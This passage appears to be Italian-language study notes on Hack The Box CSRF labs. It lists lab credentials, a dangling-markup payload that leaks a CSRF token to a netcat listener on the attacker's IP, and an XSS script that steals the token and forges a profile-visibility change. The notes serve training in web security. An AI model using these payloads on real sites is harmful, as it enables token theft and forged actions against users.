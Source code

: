 avviamo il server

```shell
python -m http.server 1337
```

andiamo su `http://<VPN/TUN Adapter IP>:1337/notmalicious_get.html`
e anche qui la modifica dei dati ha avuto successo!

# Cross-Site Request Forgery Example POST-based (lab_csfr3)

Navigate to http://csrf.htb.net and log in to the application using the credentials below:

    Email: heavycat106
    Password: rocknrol

nella delete dell'account il path e' questo `http://csrf.htb.net/app/delete/attacker@htb.net` ovvero `/app/delete/<your-email>`

possiamo provare ad inserire codice nel campo mail per vedere cosa succede

`<h1>h1<u>underline<%2fu><%2fh1>`

e click su delete (senza salvare) vediamo che effettivametne abbiamo uno stozzo di html interpretato.

avviamo netcat
```shell
$ nc -nlvp 8000
```

inseriamo un payload diverso nel campo mail

```js
<table%20background='%2f%2f<VPN/TUN Adapter IP>:PORT%2f
```

click su delete 

nella shell con nc abbiamo il CSFR token e possiamo usarlo per fare la nostra richiesta

# XSS & CSRF Chaining

Navigate to http://minilab.htb.net and log in to the application using the credentials below:

- Email: crazygorilla983
- Password: pisces

cattura con burp la POST su change visibility (la conferma)

c'e' il csfr token 

pyload del campo Country, save e  rendiamo pubblico il profilo

```js
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>

```
